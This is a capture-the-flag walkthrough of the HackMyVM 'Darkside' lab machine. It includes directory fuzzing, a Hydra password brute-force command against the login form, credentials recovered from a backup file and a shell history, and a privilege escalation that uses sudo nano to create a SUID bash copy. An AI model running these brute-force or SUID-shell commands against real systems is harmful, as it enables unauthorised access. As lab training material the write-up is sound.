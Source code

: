 ```yaml
---
layout: post
title: "HackMyVM: Darkside"
---
```

A bite-sized and quirky VM that's easy to pwn, but you have to poke your nose around to do so. Perfect for beginners.

### Recon

**nmap**

```
Nmap scan report for 192.168.56.107  
Host is up (0.00032s latency).  
Not shown: 998 closed ports  
PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u2 (protocol 2.0)  
80/tcp open  http    Apache httpd 2.4.56 ((Debian))  
| http-cookie-flags:    
|   /:    
|     PHPSESSID:    
|_      httponly flag not set  
|_http-server-header: Apache/2.4.56 (Debian)  
|_http-title: The DarkSide  
MAC Address: 08:00:27:29:44:83 (Oracle VirtualBox virtual NIC)  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  
  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 13.41 seconds
```

A standard 22-80 situation. We'll go for HTTP first, of course.

**the website**

![](https://cybersec.deadandbeef.com/images/Darkside/loginpage.png)

A plain login page. Standard credentials such as admin:admin don't work on it when we test. Since there isn't much else to go off of, we do some dirbusting.

```
thehated@TRYHARDER:~/ExploitScripts$ ffuf -u http://192.168.56.107/FUZZ -w ~/SecLists/Discovery/Web-Content/raft-small-words.txt    
  
       /'___\  /'___\           /'___\          
      /\ \__/ /\ \__/  __  __  /\ \__/          
      \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\         
       \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/         
        \ \_\   \ \_\  \ \____/  \ \_\          
         \/_/    \/_/   \/___/    \/_/          
  
      v1.1.0  
________________________________________________  
  
:: Method           : GET  
:: URL              : http://192.168.56.107/FUZZ  
:: Wordlist         : FUZZ: /home/thedoug/SecLists/Discovery/Web-Content/raft-small-words.txt  
:: Follow redirects : false  
:: Calibration      : false  
:: Timeout          : 10  
:: Threads          : 40  
:: Matcher          : Response status: 200,204,301,302,307,401,403  
________________________________________________  
  
.html                   [Status: 403, Size: 279, Words: 20, Lines: 10]  
.htm                    [Status: 403, Size: 279, Words: 20, Lines: 10]  
backup                  [Status: 301, Size: 317, Words: 20, Lines: 10]  
.                       [Status: 200, Size: 683, Words: 162, Lines: 30]  
.htaccess               [Status: 403, Size: 279, Words: 20, Lines: 10]  
.php                    [Status: 403, Size: 279, Words: 20, Lines: 10]  
.phtml                  [Status: 403, Size: 279, Words: 20, Lines: 10]  
.htc                    [Status: 403, Size: 279, Words: 20, Lines: 10]  
.html_var_DE            [Status: 403, Size: 279, Words: 20, Lines: 10]  
server-status           [Status: 403, Size: 279, Words: 20, Lines: 10]  
.htpasswd               [Status: 403, Size: 279, Words: 20, Lines: 10]  
.html.                  [Status: 403, Size: 279, Words: 20, Lines: 10]  
.html.html              [Status: 403, Size: 279, Words: 20, Lines: 10]  
.htpasswds              [Status: 403, Size: 279, Words: 20, Lines: 10]  
.htm.                   [Status: 403, Size: 279, Words: 20, Lines: 10]  
.htmll                  [Status: 403, Size: 279, Words: 20, Lines: 10]  
.phps                   [Status: 403, Size: 279, Words: 20, Lines: 10]  
.html.old               [Status: 403, Size: 279, Words: 20, Lines: 10]  
.html.bak               [Status: 403, Size: 279, Words: 20, Lines: 10]  
.ht                     [Status: 403, Size: 279, Words: 20, Lines: 10]  
.htm.htm                [Status: 403, Size: 279, Words: 20, Lines: 10]  
.htgroup                [Status: 403, Size: 279, Words: 20, Lines: 10]  
.html1                  [Status: 403, Size: 279, Words: 20, Lines: 10]  
.hta                    [Status: 403, Size: 279, Words: 20, Lines: 10]  
.html.printable         [Status: 403, Size: 279, Words: 20, Lines: 10]  
.html.LCK               [Status: 403, Size: 279, Words: 20, Lines: 10]  
.htm.LCK                [Status: 403, Size: 279, Words: 20, Lines: 10]  
.htmls                  [Status: 403, Size: 279, Words: 20, Lines: 10]  
.htx                    [Status: 403, Size: 279, Words: 20, Lines: 10]  
.html.php               [Status: 403, Size: 279, Words: 20, Lines: 10]  
.htaccess.bak           [Status: 403, Size: 279, Words: 20, Lines: 10]  
.htlm                   [Status: 403, Size: 279, Words: 20, Lines: 10]  
.htm2                   [Status: 403, Size: 279, Words: 20, Lines: 10]  
.htuser                 [Status: 403, Size: 279, Words: 20, Lines: 10]  
.html-                  [Status: 403, Size: 279, Words: 20, Lines: 10]  
:: Progress: [43003/43003] :: Job [1/1] :: 7167 req/sec :: Duration: [0:00:06] :: Errors: 0 ::
```

`/backup` o.o; that's always interesting. Piques our curiosity. What data could be in there?

![](https://cybersec.deadandbeef.com/images/Darkside/backupfolder.png)

vote.txt... wonder what that could be.

```
rijaba: Yes
xerosec: Yes
sml: No
cromiphi: No
gatogamer: No
chema: Yes
talleyrand: No
d3b0o: Yes

Since the result was a draw, we will let you enter the darkside, or at least temporarily, good luck kevin.
```

There's our username! Since we don't have any sort of password leads, we may as well try to brute force it.

### User

To brute force passwords, we'll use our long-time friend Hydra! Employing this command (mind my IP and wordlist, replace those with yours), we'll surely find a user:pass combination that logs us in:
```
hydra -l kevin -P ~/SecLists/Passwords/Leaked-Databases/rockyou.txt 192.168.56.107 http-post-form "/:user=kevin&pass=^PASS^:invalid"
```

After a grand total of two seconds, we find the million-dollar prize:
```
kevin:iloveyou
```

When we log in with our prize, we see a string of encoded text. At least, that's what it appears like:

![](https://cybersec.deadandbeef.com/images/Darkside/kevinpage.png)

```
kgr6F1pR4VLAZoFnvRSX1t4GAEqbbph6yYs3ZJw1tXjxZyWCC
```

Plugging this into CyberChef (because it simply doesn't resemble Base64 at all) and employing the magic module, we see our decoded text:
![](https://cybersec.deadandbeef.com/images/Darkside/cyberchefdecode.png)

It wasn't Base64, that's for sure! Regardless, we now have a new potential path to visit on the site: `/sfqekmgncutjhbypvxda.onion`

![](https://cybersec.deadandbeef.com/images/Darkside/whichside.png)

Obviously, we have our answer: the dark side. But where do we answer this? Let's peer inside the source:
```
<!DOCTYPE html>
<html>
<head>
    <title>Which Side Are You On?</title>
    <style>
        body {
            background-color: black;
            color: white;
            font-size: 24px;
            margin: 0;
        }
    </style>
</head>
<body>
    <div>
        <p>Which Side Are You On?</p>
    </div>

    <script>
        var sideCookie = document.cookie.match(/(^| )side=([^;]+)/);
        if (sideCookie && sideCookie[2] === 'darkside') {
            window.location.href = 'hwvhysntovtanj.password';
        }
    </script>

    
</body>
</html>
```

If the `side` cookie in our browser is `darkside`, it directs us to the sub-path `hwvhysntovtanj.password`. We don't have to change the cookie; we can simply go to the path `/sfqekmgncutjhbypvxda.onion/hwvhysntovtanj.password`. This is a text file that reads: `kevin:ILoveCalisthenics`. This must be our ticket to SSH town! Attempts to log in with these credentials are affirmative, to say the least.
```
kevin@darkside:~$
```

### Root

Inside kevin's home directory, there's a non-standard file:
```
kevin@darkside:~$ ls -la      
total 796  
drwxr-xr-x 4 kevin kevin   4096 Nov 22 01:05 .  
drwxr-xr-x 4 root  root    4096 Oct 15 13:19 ..  
lrwxrwxrwx 1 kevin kevin      9 Oct 30 08:41 .bash_history -> /dev/null  
-rw-r--r-- 1 kevin kevin    220 Oct 15 12:54 .bash_logout  
-rw-r--r-- 1 kevin kevin   3526 Oct 15 12:54 .bashrc  
drwx------ 3 kevin kevin   4096 Nov 22 01:02 .gnupg  
-rw-r--r-- 1 kevin kevin    113 Oct 15 13:37 .history  
-rw-r--r-- 1 kevin kevin 776746 May 12  2022 linpeas.sh  
drwxr-xr-x 3 kevin kevin   4096 Oct 15 13:37 .local  
-rw-r--r-- 1 kevin kevin    807 Oct 15 12:54 .profile  
-rw-r--r-- 1 kevin kevin     19 Oct 15 13:38 user.txt
```

`.history` isn't a file you see by default. Let's get our hands on dem contents:
```
ls -al  
hostname -I  
echo "Congratulations on the OSCP Xerosec"  
top  
ps -faux  
su rijaba  
ILoveJabita  
ls /home/rijaba
```

From this file, we can infer that `ILoveJabita` is rijaba's password. A little pivoting on the way to root never hurt anyone.

**From the Rijaba user**

One of the first checks I always run is `sudo -l` to sniff any potential programs we could use. There is one!
```
rijaba@darkside:~$ sudo -l  
Matching Defaults entries for rijaba on darkside:  
   env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin  
  
User rijaba may run the following commands on darkside:  
   (root) NOPASSWD: /usr/bin/nano
```

`nano` allows you to execute commands directly from the editor itself through the CTRL+T command. I personally used this line to copy the bash shell and make it SUID:
```
cp /bin/bash /tmp/thehated; chmod u+s /tmp/thehated
```

Once you run the SUID shell with the -p flag, the root shell is achieved; truly on the dark side now, huh? Or maybe not.
```
thehated-5.1#
```

